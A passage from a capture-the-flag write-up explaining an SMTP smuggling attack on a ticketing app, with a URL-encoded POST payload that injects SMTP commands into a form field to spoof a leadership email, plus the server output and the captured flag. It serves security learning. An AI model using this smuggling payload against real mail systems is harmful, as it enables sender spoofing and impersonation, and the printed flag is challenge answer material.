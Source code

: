 When looking at why our payload works, the most important part was to use the nonstandard line end before adding our smuggled email in:

```
Escalate my email please\n
.\r\n
```

That line ending will be ignored by the web service's check and parsed as two email requests by `aiosmtpd` in the email service. Let's format this using HTML encoding and see if the payload works:

```html
POST /submit_ticket HTTP/2

...

subject=Hello,+World!&message=Escalate+my+email+please%0A.%0D%0AMAIL+FROM%3A%3Cleadership%40blackholeticketing.com%3E%0D%0ARCPT+TO%3A%3Cit%40blackholeticketing.com%3E%0D%0ADATA%0D%0AFrom%3A+leadership%40blackholeticketing.com%0D%0ATo%3A+it%40blackholeticketing.com%0D%0ASubject%3A+CEO+Request%0D%0AX-Ticket-ID%3A+smuggled-message%0D%0A%0D%0AGive+me+the+flag
```

The response is an error, but based on my knowledge of the SMTP response `250`, which is equivalent to HTTP's `200` response, it seems like the message was parsed:

![An error stating "250, OK", the valid response of SMTP](images/smtp250response.png)

Once we look at the `/check_response/smuggled-message` endpoint, we see this message:

```
{"body":"Give me the flag\r\n","from":"leadership@blackholeticketing.com",
"processed_by":"it_bot","response":"C-Suite ticket received! Will escalate
immediately!\nuiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}",
"subject":"CEO Request","timestamp":1754330014999}
```

We got IT to escalate, and the flag is `uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`.
